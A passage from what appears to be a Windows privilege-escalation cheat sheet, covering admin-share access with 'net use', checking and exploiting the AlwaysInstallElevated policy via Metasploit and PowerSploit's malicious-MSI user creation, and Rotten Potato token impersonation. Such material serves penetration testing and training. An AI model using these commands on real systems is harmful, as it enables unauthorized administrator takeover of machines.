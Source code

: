 **Method Two: Using net use**

This method gets us access only to the file system

```
net use x: \\localhost\c$ /user:administrator [insert password]
```

#### Always Install Elevated

This issue can exist on a system that allows users to execute installer packages with system privileges without providing credentials

Determine if it's activated on the target system. If the output of the below commands is `0x1` it means that it's activated.

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**Exploit with Metasploit**

```
use exploit/windows/local/always_install_elevated
```

Set the LHOST, SESSION and run.

**Exploit with Powersploit**

Import the module

```
Import-Module Privesc
```

Enumerate the issue

```
Get-RegistryAlwaysInstallElevated
```

Generate the malicious MSI

```
Write-UserAddMSI
```

Then run the yielded MSI which will prompt you to create and add the user into the administrators group

#### Rotten Potato

Rotten potato is based on tricking the `NT Authority\System` into authenticating and negotiating via the NTLM locally which can create the possibility of token impersonation/manipulation.

If you have compromised a service account and got a meterpreter shell then download rotten potato from below link

```
https://github.com/breenmachine/RottenPotatoNG
```
